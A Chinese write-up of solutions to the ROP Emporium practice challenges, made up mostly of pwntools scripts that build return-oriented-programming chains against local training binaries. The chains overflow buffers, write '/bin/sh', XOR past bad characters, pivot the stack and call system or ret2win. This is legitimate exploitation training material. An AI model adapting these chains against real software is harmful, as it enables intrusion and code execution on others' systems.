



这里是ROP Emporium的题的exp，然后由于我太懒，exp都是64位的，32位的还没写。
1-ret2win 1 2 3 4 5 6 7 8 9 10 11 12 13 from pwn import * sh = process('./ret2win' ) shell=0x0400824 bss = 0x0601060 payload = 0x20*"a" + p64(0) + p64(shell) sh.sendline(payload) sh.interactive()
2-split 1 2 3 4 5 6 7 8 9 10 11 12 13 from pwn import * sh = process('./split' ) system = 0x04005E0 cat_flag = 0x0601060 bss = 0x0601080 pop_rdi = 0x0400883 payload = "a" *0x20 + p64(0) + p64(pop_rdi) + p64(cat_flag) + p64(system) sh.sendline(payload) sh.interactive()
3-callme 题目意思大概是叫我们分别调用callme_one callme_two callme_three来得到flag，要想知道这些函数到底是干什么的还是要去.so文件里看一下具体的函数（其实主要是它竟然给了我们一个.so文件，那肯定不会没用啊，而且callme里对这三个函数就是一笔带过，啥都没写）
so里的三个函数传的参都是1、2、3，意思就是我们要把这些参数压进栈内，然后调用callme的三个函数，但是貌似每次调用都要传参，才能调用到下一个函数，所以我们要pop三个寄存器出来存着三个数

然后找到rdi rsi rdx三个可以用的
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from pwn import * sh = process('./callme' ) callme_one = 0x0401850 callme_two = 0x0401870 callme_three = 0x0401810 pop_rdi_rsi_rdx = 0x0401ab0 payload = "a" *0x20 + p64(0) payload += p64(pop_rdi_rsi_rdx)+p64(1)+p64(2)+p64(3)+p64(callme_one) payload += p64(pop_rdi_rsi_rdx)+p64(1)+p64(2)+p64(3)+p64(callme_two) payload += p64(pop_rdi_rsi_rdx)+p64(1)+p64(2)+p64(3)+p64(callme_three) sh.sendline(payload) sh.interactive()
32位不需要调用rdi来存放指令，但是它需要用到堆栈平衡，在调用函数之后的栈帧里，存的是它的返回地址，而后面是调用函数的参数。（这里就没写exp）
4-write4 首先，我们明确一下思路，是要将”/bin/sh”写入bss段里。

然后我们选那个r14、r15的地址

然后我们找到有r14和r15的，[r14]是代表r14的地址，r15则是对应的值，假设r14地址为0x0401809，r15里的值是“abc”，则这个命令就是，让r14里的地址指向r15里的内容，即0x0401809->“abc”。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from pwn import * sh = process('./write4' ) system = 0x04005E0 pop_rdi = 0x0400893 bss = 0x0601060 pop_r14_r15 = 0x0400890 mov_r14_r15 = 0x0400820 payload = "a" *0x20+p64(0) payload += p64(pop_r14_r15) + p64(bss) + "/bin/sh\x00" + p64(mov_r14_r15) payload += p64(pop_rdi) + p64(bss) + p64(system) sh.sendline(payload) sh.interactive()
5-badchars 通过程序我们知道，它阻止了几个字符的输入，使个别字符强行转换成21（会影响“/bin/sh”的写入），所以我们要绕过它
最简单的加密解密方法就是异或了，我们来找一个数字，使输入异或之后不等于badchars即可，脚本如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 from pwn import * chars = [98,105,99,47,32,102,110,115] num = 1 binsh = "/bin/sh\x00" while 1: for i in binsh: x = ord(i) ^ num if x in chars: num += 1 break if i == "\x00" : print num num += 1 if num == 10: break
我们选用2
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 from pwn import * sh = process('./badchars' ) binsh = "/bin/sh\x00" num = "" for x in binsh: num += chr(ord(x)^2) system = 0x04006F0 bss = 0x0601080 pop_rdi = 0x0400b39 mov_r12_r13 = 0x0400b34 pop_r12_r13 = 0x0400b3b pop_r14_r15 = 0x0400b40 xor_r15_r14 = 0x0400b30 payload = "a" * 0x20 + p64(0) payload += p64(pop_r12_r13) + num + p64(bss) + p64(mov_r12_r13) for i in range(0,len(num)): payload += p64(pop_r14_r15) + p64(2) + p64(bss+i) payload += p64(xor_r15_r14) payload += p64(pop_rdi) + p64(bss) + p64(system) sh.sendline(payload) sh.interactive()
6-fluff 这个和前面的write4有异曲同工之处，只不过这个程序没有那么多的mov，需要借助到xor（xor自身会清空，xor另一个数，就等于存值）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 from pwn import * sh = process('./fluff' ) system = 0x04005E0 bss = 0x0601060 pop_rdi = 0x04008c3 pop_r12 = 0x04008bc xor_r11_r11 = 0x0400822 xor_r11_r12 = 0x040082f xchg_r11_r10 = 0x0400840 mov_r10_r11 = 0x040084e payload = "a" *0x20 + p64(0) payload += p64(pop_r12) + p64(bss) + p64(0) + p64(0) + p64(0) payload += p64(xor_r11_r11) + p64(0) payload += p64(xor_r11_r12) + p64(0) payload += p64(xchg_r11_r10) + p64(0) payload += p64(pop_r12) + "/bin/sh\x00" + p64(0) + p64(0) + p64(0) payload += p64(xor_r11_r11) + p64(0) payload += p64(xor_r11_r12) + p64(0) payload += p64(mov_r10_r11) + p64(0) + p64(0) payload += p64(pop_rdi) + p64(bss) + p64(system) sh.sendline(payload) sh.interactive()
7-pivot 这个貌似有用到栈迁移的东西，这个程序有两个输入，第一个是写到堆里（它给出了堆的地址），第二个是写入到栈里。很明显第二次能输入的内容太少，所以payload写入堆里，然后在栈里调用。
.so里有一个后门函数，可以直接调用ret2win，cat到flag。而要leak真实地址的话要找两个文件都有的函数，貌似是只有foothold_function函数#函数需要经过一次调用之后got表里才会有真实地址
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 from pwn import * sh = process('./pivot' ) libc = ELF('./libpivot.so' ) foothold_function_so = libc.symbols['foothold_function' ] ret2win = libc.symbols['ret2win' ] foothold_function_plt = 0x0400850 foothold_function_got = 0x0602048 offest = ret2win - foothold_function_so pop_rax = 0x0400b00 mov_rax_addr = 0x0400b05 pop_rbp = 0x0400900 pop_rdi = 0x0400b73 call_rax = 0x040098e add_rax_rbp = 0x0400b09 xchg_rax_rsp = 0x0400b02 sh.recvuntil("The Old Gods kindly bestow upon you a place to pivot: " ) heap_addr = int(sh.recv(14),16) payload1 = p64(foothold_function_plt) + p64(pop_rax) + p64(foothold_function_got) + p64(mov_rax_addr) payload1 += p64(pop_rbp) + p64(offest) + p64(add_rax_rbp) + p64(call_rax) payload2 = "a" *0x20 + p64(0) payload2 += p64(pop_rax) + p64(heap_addr) + p64(xchg_rax_rsp) sh.recvuntil("> " ) sh.sendline(payload1) sh.recvuntil("> " ) sh.sendline(payload2) sh.recvuntil("into libpivot.so" ) sh.interactive()
8-ret2csu 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from pwn import * sh = process('./ret2csu' ) gdb.attach(sh) system = 0x04005A0 ret2win = 0x04007B1 init = 0x0600E18 pop5_addr = 0x040089A mov_call = 0x0400880 payload = "a" *0x20 + p64(0) payload += p64(pop5_addr) + p64(0) + p64(1) + p64(init) + p64(0) + p64(0) + p64(0xdeadcafebabebeef) payload += p64(mov_call) + "a" *56 + p64(ret2win) gdb.attach(sh,'b setvbuf' ) sh.sendline(payload) sh.interactive()